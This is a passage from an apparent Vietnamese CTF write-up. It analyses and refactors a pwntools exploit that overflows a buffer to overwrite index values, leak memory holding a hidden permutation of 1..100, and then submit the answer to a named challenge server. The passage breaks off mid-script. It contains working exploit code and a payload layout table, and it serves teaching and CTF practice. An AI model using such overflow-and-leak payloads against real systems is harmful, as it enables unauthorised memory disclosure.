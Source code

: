 > *Chỉ cần thiếu 2 vì permutation của 1..100 – biết 98 phần tử duy nhất → hai số còn lại xác định rõ.*

---

#### Phân tích exploit script gốc

Script ban đầu (rút cốt lõi):

```python
start = 0xb8
for _ in range(6):
    send '?'
    payload = b'0'*100 + b'\0'*28
    for i in range(start, start+14*4, 4):
        payload += p32(i+1)
    start += 14*4
    send(payload[:-1])
    # đọc 14 byte leak
```

Giải thích:

| Thành phần | Ý nghĩa |
|------------|---------|
| `'0'*100` | Lấp đầy buffer hợp lệ |
| `'\0'*28` | Padding đến sát vùng index |
| 14×`p32(i+1)` | Ghi đè 14 index liên tiếp (dịch mỗi 4 byte) |
| `start` tăng sau mỗi vòng | Chỉ leak các cụm kế tiếp trong memory layout chứa permutation / bảng phụ |

Sau các vòng:

1. Tập hợp `ans`.
2. Tìm `missing = {1..100} - set(ans)`.
3. Gửi `!` + 98 số + 2 số còn thiếu → nhận flag (nếu thành công).
4. Nếu “Wrong answer” → reconnect (loop “bruteforce ổn định”).

##### Điểm hơi “lạ” trong script

- Khởi tạo `ans` bằng một dải số fake (465..). Điều này chỉ để đảm bảo độ dài dễ kiểm soát; không cần thiết logic – có thể bỏ.
- Chọn `guess[6]`, `guess[10]`: vì mảng `guess` chứa nhiều giá trị “không có” (bao gồm placeholders); chọn hai vị trí đó trùng với hai phần tử thật sự. Refactor nên làm tường minh hơn.

---

#### Refactor exploit “sạch” hơn

```python
from pwn import *

TARGET, PORT = "chall.blackpinker.com", 33471

def extract_data(connection, offset):
    connection.sendline(b'?')
    payload = b'0'*100 + b'\x00'*28
    for idx in range(offset, offset + 14 * 4, 4):
        payload += p32(idx + 1)
    connection.sendline(payload[:-1])
    received_data = [u8(connection.recv(1)) for _ in range(14)]
    connection.recvline()
    return received_data

while True:
    conn = remote(TARGET, PORT)
    conn.recvuntil(b'100\n')
```